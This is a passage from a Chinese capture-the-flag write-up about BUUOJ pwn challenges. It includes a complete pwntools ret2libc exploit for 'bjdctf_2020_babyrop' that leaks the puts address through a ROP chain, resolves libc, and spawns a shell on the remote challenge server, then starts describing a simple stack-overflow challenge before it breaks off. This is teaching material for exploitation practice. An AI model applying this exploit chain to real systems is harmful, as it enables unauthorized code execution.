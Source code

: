 ### 题目2

https://buuoj.cn/challenges#bjdctf_2020_babyrop

非常基本的一道利用puts函数构造rop链泄露libc基址的题目

**Exp**

```python
from pwn import *
from LibcSearcher import *

p = remote("node4.buuoj.cn",25323)

elf = ELF('./bjdctf_2020_babyrop')

main = elf.sym['main']
poprdi_ret = 0x400733

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

s = p.recv()
print(s)

payload = b'a'*40 + p64(poprdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main)

p.sendline(payload)

s = p.recv()

puts_addr = u64(s[:6].ljust(8,b'\x00'))
print(hex(puts_addr))

libc =LibcSearcher('puts',puts_addr)
offset = puts_addr - libc.dump('puts')
binsh = offset + libc.dump('str_bin_sh')
system = offset + libc.dump('system')

payload = b'a' * 40 + p64(poprdi_ret) + p64(binsh) + p64(system)

p.sendline(payload)

p.interactive()
```

### 题目3

https://buuoj.cn/challenges#get_started_3dsctf_2016

一道十分简单的栈溢出，将main的返回地址移交给自带的get_flag函数

把这道题列出来的原因在于，程序没有开启标准输入输出，
